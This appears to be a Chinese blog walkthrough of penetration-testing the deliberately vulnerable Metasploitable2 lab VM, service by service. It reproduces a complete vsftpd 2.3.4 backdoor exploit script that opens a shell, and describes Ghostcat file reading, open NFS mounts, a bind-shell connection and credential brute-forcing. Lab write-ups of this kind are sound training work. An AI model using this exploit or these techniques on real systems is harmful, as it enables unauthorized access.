
来吧！新的靶机！！！

靶机简介：`metasploitable2`靶机是 `metasploitable`系列的靶机

```plaintext
This is Metasploitable2 (Linux)

Metasploitable is an intentionally vulnerable Linux virtual machine. This VM can be used to conduct security training, test security tools, and practice common penetration testing techniques. 

The default login and password is msfadmin:msfadmin. 

Never expose this VM to an untrusted network (use NAT or Host-only mode if you have any questions what that means). 

To contact the developers, please send email to msfdev@metasploit.com
```
这是靶机所给的信息 --> 旨在锻炼基本的打靶手段

```table-of-contents
```

开始吧！！！

从页面看样子像是一个用户专门建立的一个工具类、练习类的网站


看样子靶机开放的端口有点多哦！（不过是专门用来练习的也可以理解）
---> 开放端口多意味着可以用点多，也就是**TCP探测**与**漏洞扫描**的内容会很多

# 端口21


这是端口21的基本信息
判断一个端口是否可能存在的最佳方法就是通过服务版本进行判断
**FTP Version**：vsftpd 2.3.4

进行搜索一下（工具、浏览器都可）


看来是有利用的点

尝试把 Payload 下载下来进行运行



```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```
详细的 Payload 代码
接收用户传入的host --> 接收后解析后传入构造的恶意用户名与密码（其实通过浏览器检索到的信息展示: 该漏洞主要是用户名包含`:)`，而对于密码其实没有多大关系）

可根据 Payload 依次手动实现：
使用telnet连接目标的FTP服务：`telnet <IP_HOST> portFTP`;
观察是否存在 `vsFTPd 2.3.4` 的字样；
写入构造的恶意代码 `USER nergal:)` 、`PASS pass`；
另一终端建立一个与目标机器端口6200的连接皆可；


>[!note]
>理解 Payload 是基础，但是很多漏洞的利用过于复杂（要想看懂这些复杂的Payload需要长时间的积累，不只是编程语言的熟练，更是很多系统的底层逻辑理解） ---> 虽然说只有先了解底层机制才能洞悉漏洞所在，但是网络的知识体系很是庞杂（是学不完，只需要每个人都有自身专精的领域就够了，不足之处则是需要队友、团队互补的，这也是很多网络攻击者都是以组织出现的）

**Payload直接使用**：


# 端口22 与 端口23
> 在渗透测试的效率和策略优先级上，SSH（22端口）与 Telnet（23端口）常被置于末位，它们的关键作用更多是**信息的交叉验证与攻击链的深度串联**，尤其是22端口，而非直接突破的入口

**不作为优先策略的原因**：
- **SSH**：技术上是**硬骨头**，属于战术上的 ’信息金矿‘ ---> 有加密；极少见的版本漏洞
- **Telnet**：技术上是**软柿子**，在现实中属 ’稀有品‘ ---> 无加密；老旧的缓冲区溢出或后门

所以总结一下，渗透测试（尤其是打靶机时）更注重的是思路的呈现（最好是从网站业务逻辑或详细实现的功能找到漏洞，当然发现23端口也可以尝试，但可能会失去渗透测试的乐趣---一种思维清晰的乐趣）

# 端口25（待补充/可补偿MITM）



通过扫描出的 **SMTP** 漏洞主要是**加密协议层面的弱点**，以中间人攻击范畴（暂时不作为这个靶机的主要立足点）

# 端口80

通过Nmap最基本的版本等探测

再结合网站最开始内容可以合理推测它是 PHP 语言（因为DVWA，phpMyadmin可以尝试推测）
可以进行详细探测一下

是的推测是正确的，且版本不高 --> 尝试去网页查看 phpinfo 的信息

这里有个信息可以注意一下 ---> **Server API：CGI/FastCGI**（允许服务器执行脚本的标准协议，会为每个请求启动一个新的PHP进程）
熟悉的可能知道这种方式在 PHP 中是存在 **CGI 参数注入**漏洞的


的确是存在 cgi参数注入 的漏洞，甚至还有一个是24年发布的关于Windows的（但这里之前也知道了是ubuntu）


当然如果信息量过大且对其利用漏洞等不太熟悉可能会直接会略掉
可以尝试一下目录的枚举

这里就直接枚举出了一个通过手动搜集未发现的目录，接下来就是可以通过浏览器等进行搜索一下，了解这个可能出现的什么样的漏洞
接下来的利用就之前的操作一样


# 端口111

rpcbind (也称 portmapper) 运行在 TCP/UDP 111 端口。可以把它理解成一个呼叫中心，专门为**远程过程调用（RPC）服务**提供查询和调度：RPC 服务（如 NFS）启动时会去注册，客户端需要调用时则先到 111 端口查询到对应端口再连接

从渗透测试角度出发，它本身不直接提供文件或 shell 访问，但是却可以用于**搜集关键信息**、**发射方法DDoS攻击**或**已知高危漏洞**
所以对该端口的利用优先级策略也是属于 *下册* 的


探测时可以一并探测了
清晰地展示了目标主机上所有基于 RPC 的服务
作为一个探测工具它也暴露了一些服务有用的服务，如：**nfs** 等

# 端口139/445

这两个端口都是与 SMB协议 紧密相关的

## 端口139

> `SMB` **兼容** 模式（老旧），主要是兼容一些老旧系统而进行的保留
> SMB协议数据包会被封装在 **NetBIOS** 帧头内再通过 139 端口传输

端口139往往还需 137(NetBIOS 名称服务) 和 138(NetBIOS 数据报服务)进行配合工作

## 端口445

>`SMB` **直连** 模式（现代），直接基于 **TCP/IP** 运行的 SMB协议
>无需 **NetBIOS**

相对与旧版本，445端口所具备的特点：
`速度快、无额外封装，是目前文件共享、打印机共享、乃至 Active Directory 域控通信的基石`
它的渗透价值还是比较高的，如：永恒之蓝`MS17-010`、SMB签名绕过、Pass-the-Hash等

## 详细利用


这里两个端口都是开放的，但是关注点可以放到 139 端口上（毕竟旧版本的漏洞相对而言更好探测与利用）


其中 `$` 的三个都是默认的共享配置
但是都尝试了一下貌似都不可读

只有看看是否存在公开的可利用漏洞了



先进行一下版本探测，才能更好的去搜集可能的漏洞（其实在 Nmap 探测是就已经知道了，但是多个工具相互佐证才能确保准确无疑）


貌似是存在漏洞的
尝试一下吧！

可以的！！！


# 端口512、513、514

> 这三个端口属于十分古老的 **BSD** ’r-commands‘ 套件 --> 包括：rexec、rlogin、rsh

**rexec**：远程命令执行；但缺点是明文认证，易被窃听
**rlogin**：类似**Telnet**的远程登录会话；配置不到会导致无密码登录
**rsh**：远程命令执行，权限基于主机信任关系；同**rlogin**一样配置不当会被用于提权等

## 端口512：rexec




其实使用msf发现就是字典爆破的功能

## 端口513：rlogin




也是一样的，它与**rexec**一样也是爆破功能

## 端口514：rsh

这个也不在演示，这三个基本都是字典爆破的手段进行的
友情提示➡️在渗透测试中字典爆破是一个重要手段，但它的优先级不高（盲目爆破会被检查甚至被封禁等危险，只有在有把握 或 ’走投无路‘ 时再进行最佳）


# 端口1099

>**Java RMI（远程方法调用）** 是一种API
>允许在不同 Java虚拟机（JVM）之间调用对象的方法，实现分布式应用程序



具体使用哪一个根据描述以及部分子Payload可以很容易判断 --> `use 1`



其实在漏洞扫描时就已经很明确了（这也验证了之前所言，虽然能推断出，但多种方法相互佐证可以大大提升准确性）



# 端口1524

>BindShell 就是用于在目标机器上启动一个监听服务，使攻击者能够通过网络连接到目标机器并执行命令。它通常用于渗透测试和网络安全研究

直接使用连接工具连接即可：



很简单的


# 端口2049


刚好这里就遇到了 2049端口
之前在 端口111 就分析到了有 nfs 的出现

>其实端口111 **rpcbind** 就是用来帮助用户快速定位 **nfs** 等服务的
>而 **NFS** （Network FIle System）：允许**不同计算机系统**通过网络**共享**文件和目录
>特点：**透明访问**、**易扩展**、**高性能**

⚠️：NFS的漏洞是与RPC直接关联的 -- **依存关系**
RPC 是 NFS 允许的必要基础设施；通常漏洞出现于 NFS 等配置中，但只是通过 RPC 暴露了其位置

既然它是通过RPC暴露的，那我们的思路应该是找到所以绑定在RPC上的服务，尝试探寻可能利用的点

其中有一个服务是`mountd`，是 NFS 的**挂载守护进程**
核心是负责**根据配置文件 `/etc/exports` 决定哪些客户端可以挂载哪些共享目录**
但具体是否配置妥当还需进一步探测（尝试是否能将远程文件挂载到本地）


没报错且发回的是 `/ *`
就说明配置有问题（所以文件都可以）

尝试将其直接挂载到本地
- 先创建挂载目录
- 进行挂载（挂载到本地需要root权限）





挂载后就可以直接再该目录下进行操作了！！！

**补充一点**：
如果是很重要的挂载内容，但操作完后从安全的角度出发不能直接 `rm -rf`
```bash
# 先卸载挂载
sudo umount <file_name>

# 再进行删除
rmdir /rm -rf <file_name>
```


# 端口2121


两个详细的探测内容尝试进行搜索



没有找到能准确定位 1.3.1 版本的漏洞（结合浏览器对一些不确定项进行最后的判断）


这是一部分的内容，但大致可以看出存在**CSRF**、**SQL Injection**的漏洞



这些是最接近的版本，结合检索优先级最高的则是 `mod_sql`

但是注意该 Payload 的利用文件的扩展名为：`.pl`
**扩展**：`.pl`是**Perl**脚本的扩展名。**"Practical Extraction and Report Language"**（实用提取和报告语言）
**高级脚本语言**，是否灵活、可跨平台等特点，应用领域广，常用于**文本处理**、**网络编程**、**Web开发**、**生物信息学**等各领域

⚠️：多次尝试后发现没法利用该Payload（这是十分正常的，应该很多漏洞的产生原因在于配置不当导致开启了一些存在漏洞的模块）

其实在CVE查找时就已经给出了说明：`mod_sql`这个模块才是最重要的利用点，多次尝试后发现没法成功就可以进行排除该漏洞了！！！重新回头再整装出发才是最佳的思路！！！

验证：通过前面的漏洞我们可以成功利用，进行具体模块的查看，看是否是如分析一般该模块未开启。

看来分析的确如此，该模块未被启动加载，因此没法使用

# 端口3306
3306的端口想必对于很多人都是再熟悉不过的了（Mysql的默认端口）





刚开始进行的扫描细节其实没有发现mysql可能存漏洞
但还是继续进行CVE检索




可以发现几乎是没有可利用的 Payload（仔细对比版本等信息，若经验不足可尝试一下）

剩下的办法也可就是进行字典爆破了

# 端口5432 (待补充MITM)

5432端口也是一个很经典的默认端口，虽然不像mysql一样 ‘家喻户晓’ 但也是是否常见的加大主流数据库之一

⚠️：由于像数据库这一类只要是使用 账户+密码 的方式进行登录则可以进行弱口令的爆破（这里不演示）

其实看到这里，像这些数据库的端口只要在扫描时没有探测出具体的CVE等漏洞其实更多的是一个辅助作用，通过80端口等获取一些配置（敏感信息）后再配合数据库进行




来吧详细看一下！！！
存在`CCS注入:CVE-2014-0224`、`POODLE:CVE-2014-3566`、`弱DH密钥交换（Weak DH）`这三个漏洞

⚠️：虽然到这里才说但其实也不晚，边做边学才能有更深刻的印象！
虽然很多工具都很自动，但是不是所以的CVE都能通过Pyload实现的，有些漏洞的复现是需要多个工具结合使用才行，所以有很多的CVE可能并能执行通过`msfconsole`、`searchsploit`等工具检索到 ---> 最佳的方法就是通过浏览器或CVE搜集站进行查询

## CVE-2014-0224




补充一下虽然默认的 SSL 是443，但是在扫描时却未发现有443端口。其实是 PostgreSQL默认使用的就是 OpenSSL 库实现 **SSL/TLS** 加密传输功能
而 443 端口只是 **HTTPS** 的默认端口，而HTTPS也是 SSL/TLS 的加密传输。所以才会导致在网络上检索到的内容都是默认443的端口，而 PostgreSQL 必须独立于 HTTPS且需要SSL/TLS加密就需要重新设置默认端口 ：5432

通过各种信息验证，该CVE不能单靠 Payload 进行利用，还需要配合 **MITM**（中间人攻击）才行


由于中间人攻击（MITM）算是一个大项，如果完整展示则会导致篇幅过长（会单独再详细研究MITM）

## CVE-2014-3566


## 弱DH组


# 端口5900



该端口的服务是 VNC（Virtual Network Computing）
**远程桌面协议**：允许用户通过网络远程访问和控制其他计算机的图像桌面
VNC 基于协议： `RFB`（Remote Frame Buffer） 远程帧缓存（其就是缓存远程设备的每一帧实现控制）


由于之前的探测知道目标机是Linux系统所以需要排除 Windows系统的利用


获取到了密码，尝试登录即可
很多人都不了解 VNC 就进行搜索
参考文章：[Linux 下的 VNC 客户端：全面指南与实践 — geek-blogs.com](https://geek-blogs.com/blog/client-vnc-linux/)




# 端口6000


该端口的信息不多，访问也被拒绝了
⚠️：对于 `x11` 想必很多游戏玩家都还是印象很深刻的，但这里注意一下这不是同一个东西




# 端口6667/6697

IRC服务 --- 因特网中继聊天（Internet Relay Chat）





在nmap的探测中可以看出描述为：`看起来像特洛伊版本的 unrealircd`
参考文章：http://seclists.org/fulldisclosure/2010/Jun/277




成功了！！！




# 端口8009

ajp13协议 --- Apache Tomcat中使用的一种高效的二进制协议，它允许Web服务器与Servlet容器之间通过TCP连接进行通信
还协议目的是提高性能，通过将**二进制格式传输可读性文本**，减少了处理Socket连接的开销




进行服务版本检索


```msf
msf auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 192.156.169.138
<?xml version="1.0" encoding="ISO-8859-1"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->

<web-app xmlns="http://java.sun.com/xml/ns/j2ee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
    version="2.4">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

<!-- JSPC servlet mappings start -->

    <servlet>
        <servlet-name>org.apache.jsp.index_jsp</servlet-name>
        <servlet-class>org.apache.jsp.index_jsp</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>org.apache.jsp.index_jsp</servlet-name>
        <url-pattern>/index.jsp</url-pattern>
    </servlet-mapping>

<!-- JSPC servlet mappings end -->

</web-app>
[+] 192.156.169.138:8009 - File contents save to: /home/finis_pentest/.msf4/loot/20260511040707_default_192.156.169.138_WEBINFweb.xml_182863.txt
[*] Auxiliary module execution completed
```
CVE的利用读到了目标 `192.156.169.138` 的 `/WEB-INF/web.xml` 文件内容
这标志着目标服务器存在一个严重的配置缺陷，很可能会以此为跳板获得更大权限

通过浏览器检索后，该CVE编号为：2020-1938
攻击者可以任意构造恶意请求读取**webapps**目录下的任意文件（熟悉Java开发的基本都用过Tomcat，其中webapps目录下的所以文件都是不可直接被读取的）

# 端口8180






扫描出的内容很多，但是实际有用的却很少（服务版本探测的貌似是 Tomcat）
Tomcat默认端口8080，这里明显是被修改了的
尝试访问一下端口吧！！！


通过版本进行CVE发现

接下来就是判断选择：
- 第一个描述为：读取Tomcat JSP文件（所以可以Pass）
- 第二个描述为：Apache Tomcat 管理器应用程序部署认证代码执行
- 第三个描述为：Apache Tomcat Manager 经过身份验证的上传代码执行
暂时可以锁定这三个（我的判断是先根据`Rank`、`Check`、`Description`）
一一尝试吧！！！

**deploy**:

这些是需要配置的信息内容


没法自动选择目标（看来还需要其他配置，那就先不急研究这个）

**upload**:

这个也显示`无法访问Tomcat管理器`

回过来仔细研究下`Options`

基本上必须要配置的都已经配置了，但是发现这里有一个`HttpPassword`、`HttpUsername`


这是管理设置的身份凭证，还有很多默认的配置（相当于就是弱口令的爆破而已）



那就配置一下，再试一下

**Upload**成功了！！！


**Depoly**也成功了！！！


# 小结

**Metasploitable2**是一个很好的练习靶机（聚焦于Nmap、msfconsole、服务枚举等基础操作）
该靶机开发了很多端口，部署了很多服务，利用点也是很多。这些服务都是很重要且常见的，比如：
- **ftp**的匿名登录与登录验证问题；
- **SSH/Telnet** 服务的爆破（因为特性而定，无明显漏洞则是低优先级选择）；
- 80端口服务部署的语言版本漏洞利用；
- **SMB**服务的新旧版本的利用；
- **BSD**套件以爆破为主；
- **Java RMI** （远程方法调用）的漏洞检索；
- **BindShell**的连接；
- **NFS**（网络文件系统协议）与**RPC**（rpcbind）的共同利用，实现`磁盘挂载`；常见数据库Mysql、PostgreSQL的漏洞利用；
- **VNC** 远程访问、连接图形化桌面；
- **IRC** （Internet Relay Chat）的特洛伊版本的 unrealircd
- **ajp13** 协议读取webapp目录等敏感文件
- **Tomcat**服务管理配置弱口令